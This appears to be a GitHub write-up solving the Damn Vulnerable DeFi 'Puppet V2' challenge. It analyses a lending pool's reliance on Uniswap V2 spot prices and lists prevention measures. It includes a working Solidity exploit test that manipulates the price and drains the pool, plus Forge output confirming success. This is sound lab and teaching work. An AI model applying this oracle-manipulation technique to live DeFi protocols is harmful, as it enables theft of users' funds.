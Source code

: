 # Puppet V2 Self Project Challenge

This repository contains an in-depth security analysis of the **Puppet V2** lending pool from Damn Vulnerable DeFi v4. It focuses on identifying the oracle-manipulation vulnerability, exploring its root cause, and proposing prevention measures and security recommendations to harden real-world DeFi protocols.

---

## Vulnerability Analysis

### Observations

- The pool relies on Uniswap V2 spot reserves (`getReserves()`) as its price oracle.  
- Collateral requirement is computed as `tokenAmount × spotPrice × 3`.  
- No time-weighted average or external aggregation is used—every call sees the instantaneous, on-chain price.

### Root Cause

- A single, large swap in the same block can drastically skew Uniswap reserves.  
- By swapping all attacker tokens for WETH, the on-chain spot price of DVT collapses to near zero.  
- The manipulated price feeds into `calculateDepositOfWETHRequired()`, reducing the required collateral to an amount the attacker can afford.

### Security Lesson

- On-chain spot prices without smoothing or aggregation expose financial primitives to manipulation by actors with sufficient liquidity.  
- Critical collateral or borrowing calculations must resist single-block price swings.

---

## Prevention

- Integrate time-weighted average price (TWAP) oracles to smooth out short-term volatility.  
- Aggregate multiple independent price feeds (e.g., Chainlink, Band Protocol).  
- Enforce trade-size limits and slippage constraints on any on-chain price fetch.  
- Introduce a minimum time window or block-delay between reserve updates and oracle consumption.

---

## Security Recommendations

- Implement on-chain circuit breakers or anomaly detectors that pause borrowing when reserve ratios shift beyond safe bounds.  
- Restrict or monitor direct ERC20 transfers to the pool to prevent bypassing deposit/mint hooks and disrupting internal accounting.  
- Maintain real-time monitoring and alerting for abnormal on-chain activity and price deviations.  
- Perform regular security audits focused on oracle integrity, reserve management, and economic exploit scenarios.  
- Develop adversarial testing suites that simulate large swaps and liquidity shocks to validate protocol resilience.

---

## Exploit Code Walkthrough
```solidity
function test_puppetV2() public checkSolvedByPlayer {
    // 1. Manipulate price: swap all DVT → WETH on Uniswap
    token.approve(address(uniswapV2Router), PLAYER_INITIAL_TOKEN_BALANCE);
    address[] memory path = new address[](2);
    path[0] = address(token);
    path[1] = address(weth);
    uniswapV2Router.swapExactTokensForTokens(
        PLAYER_INITIAL_TOKEN_BALANCE,
        0,
        path,
        player,
        block.timestamp
    );

    // 2. Wrap remaining ETH into WETH under the player's context
    weth.deposit{ value: player.balance }();

    // 3. Calculate required WETH collateral and approve it
    uint256 required = lendingPool.calculateDepositOfWETHRequired(
        POOL_INITIAL_TOKEN_BALANCE
    );
    weth.approve(address(lendingPool), required);

    // 4. Borrow the entire DVT pool with manipulated collateral
    lendingPool.borrow(POOL_INITIAL_TOKEN_BALANCE);

    // 5. Transfer all drained DVT to the recovery account
    token.transfer(recovery, POOL_INITIAL_TOKEN_BALANCE);
}
```
Step 1: Approve and swap the full DVT balance, skewing Uniswap reserves and collapsing the DVT price.

Step 2: Deposit the attacker’s ETH into WETH to satisfy the artificially low collateral requirement.

Step 3: Query the manipulated price, compute the minimal WETH deposit, and approve it.

Step 4: Borrow all DVT from the pool at negligible cost.

Step 5: Forward the stolen tokens to recovery, fulfilling the success assertion.

---

## Exploit Summary

Under a single transaction, the attacker:

1. Swaps the entire 10 000 DVT balance for WETH on Uniswap V2, collapsing the DVT/WETH price.  
2. Wraps remaining ETH into WETH to meet the new, minimal collateral requirement.  
3. Borrows all 1 000 000 DVT from the lending pool using the manipulated spot price.  
4. Transfers the drained DVT into the designated `recovery` account, satisfying success conditions.

---

## Experimental Validation

Running the Forge test suite confirms both the initial setup and the exploit’s success:

```text
PS E:\Project\damn-vulnerable-defi> forge test --match-contract PuppetV2Challenge
>>
Warning: This is a nightly build of Foundry. It is recommended to use the latest stable version. To mute this warning set `FOUNDRY_DISABLE_NIGHTLY_WARNING` in your environment.

[⠒] Compiling...
[⠑] Compiling 1 files with Solc 0.8.25
[⠘] Solc 0.8.25 finished in 1.50s
Compiler run successful!

Ran 2 tests for test/puppet-v2/PuppetV2.t.sol:PuppetV2Challenge
[PASS] test_assertInitialState() (gas: 50329)
[PASS] test_puppetV2() (gas: 221391)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 3.10ms (476.90µs CPU time)

Ran 1 test suite in 17.98ms (3.10ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
